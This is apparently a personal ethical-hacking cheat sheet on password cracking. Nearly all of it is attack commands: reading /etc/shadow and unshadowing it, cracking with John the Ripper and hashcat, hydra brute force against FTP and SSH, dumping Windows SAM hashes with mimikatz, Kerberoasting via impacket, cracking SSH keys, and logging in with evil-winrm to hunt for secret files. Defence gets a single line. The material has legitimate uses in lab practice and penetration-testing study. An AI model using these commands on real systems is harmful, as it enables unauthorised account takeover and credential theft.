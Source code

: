 ```yaml
---
title: Password Cracking Tools and Techniques
summary: Use of different tools to used for cracking password
description: Use of different tools to used for cracking password
slug: '/password-cracking-tools-and-techniques'
tags: ['ethical hacking', 'penetration testing', 'john the ripper', 'hashcat']
categories: ['ethical hacking']
disableShare: true
editPost:
  disabled: true
hideSummary: false
comments: false
searchHidden: true
hiddenInHomeList: true
private: true
---
```


## Intro

### Dictionary Attacks

> CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper.

| Type            | Path                                |
| --------------- | ----------------------------------- |
| John The Ripper | /usr/share/john/password.lst        |
| Rock You        | /usr/share/wordlists/rockyou.txt.gz |

```bash
locate wordlists

gzip -d /usr/share/wordlists/rockyou.txt.gz rockyou.txt
or
gunzip /usr/share/wordlists/rockyou.txt.gz rockyou.txt
```

## Exploration

### Linux

In Linux, the `/etc/passwd` file contains potentially important metadata in the GECOS field, including full name, room number, work phone, home phone, and others. Linux stores password hashes in the `/etc/shadow` file, which is why you need to use the sudo command to view it.

```bash
cat /etc/passwd
sudo cat /etc/shadow
```

The `unshadow` utility combines the /etc/passwd and /etc/shadow files. This is done so that John the Ripper can attempt to crack the password with information from both files, using a single file.

```bash
sudo unshadow /etc/passwd /etc/shadow > combined.txt
```

## Exploitation

### Linux Password

> Kali Linux 2021.1 changed the hash function for passwords from sha512crypt (listed as $6$ in the /etc/shadow file) to yescrypt (listed as $y$ in the /etc/shadow file).

```bash
sudo adduser vulnuser (room number: 8848.86 password vulnuser8848.86)
# [Your First Name] user a password of [Your Second Name] (you will not
# see anything on the screen when you type the password).
# Press ENTER for all the subsequent prompts
# (Full Name, Room Number, Work Phone, Home Phone, and Other) until the
# last prompt, which asks “Is the information correct? [Y/n].
```

#### John The Ripper

> John the Ripper will not attempt to crack a password it has already cracked.

```bash
# By the time you are reading this, support for the $y$ hashes might
# be incorporated into John the Ripper, which would mean you could
# leave off --format=crypt for some speedup
sudo john --wordlist=/usr/share/john/password.lst --format=crypt combined.txt

# See all passwords already cracked.
sudo john --show --format=crypt combined.txt

# To remove remembered password.
sudo rm /root/.john/john.pot

# By default single crack mode, uses the GECOS field, without wordlist.
sudo john --format=crypt combined.txt

sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt combined.txt
```

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 faiz.txt
```

#### hydra

```bash
# Target FTP
hydra -L username.txt -P /usr/share/wordlists/rockyou.txt ftp <target-ip-addr> -vV
  -L username file
  -l username
  -P password file
  -p password

# Target SSH
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target-ip-addr> -vV
```

### Windows Password

Creating user:

- Click the **Start** button or in the search box, type **Computer Management**, and select **Computer Management**. This opens the **Computer Management Console**.
- Expand **Local Users and Groups** in the pane at the left.
- Click **Users** to see all the current local user accounts.
- Right-click on a blank area in the right pane and select **New User**.
- Fill in the fields, creating a four-digit password with just lowercase letters.
- Clear the checkbox next to User Must Change Password At Next Logon and click the **Create**

```powershell
reg save hklm\SAM sam.hiv
reg save hklm\SYSTEM system.hiv

mimikatz
> privilege::debug
> token::elevate

# Send the next command’s output to a text file called hashes.txt:
> log hashes.txt

# Output the usernames and hashes for all accounts on the system:
> lsadump::sam sam.hiv system.hiv
```

e.g. windowshashes.txt

```txt
Beatles:5be2f274f2f80c5d4d0c597f023f4f61::::
StarWars:b7c899154197e8a2a33121d76a240ab5::::
```

#### GetUserSPNs.py

> Note: If there is misconfigured account, we can obtain the credentials from Active Directory using `GetUserSPNs`.

```bash
impacket-GetUserSPNs -dc-ip <dc-ip-addr> <host>.local/<user>:<pass> -request
```

> If error: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` you need to synchronize the host with the Domain Controller time.

```bash
# Download from here https://sourceforge.net/projects/openrdate/
tar -xvzf opendate-1.2.tar.gz

cd opendate
./configure
make
make install
rdate -n <domain-controller-ip>
```

#### John The Ripper

```bash
# Brute force of 4 character.
sudo crunch 4 4 | sudo john --format=NT windowshashes.txt --stdin

sudo john --format=NT windowhashes.txt

sudo john --show --format=NT windowshashes.txt

john --format=krb5tgs --wordlist=password.txt hash.kerberoast
```

#### crackmapexec

```bash
# Generating passwords. e.g. (ADMINISTRATOR1996)
crunch 18 18 -t ^ADMINISTRATOR19%% > passwords.txt

crackmapexec winrm <target-ip-addr> -u Administrator -p passlist
```

#### hashcat

```bash
hashcat -m 13100 --force -a 0 hash.kerberoast password.txt # -m refers to hash type
```

### SSH Pass key

```bash

python /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash.txt
or
john ssh_hash.txt

# Avoid Unprotected Warning
chmod 600 id_rsa

ssh -i id_rsa user@<target-ip-addr>
```

## Window Remote Management (WinRM)

```bash
gem install evil-winrm

evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'

# PowerShell
Get-ChildItem -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
# Windows Prompt
dir secret.doc /s /p

# Display content of file
type <path>
```

## Remediation

- Account Lockout.
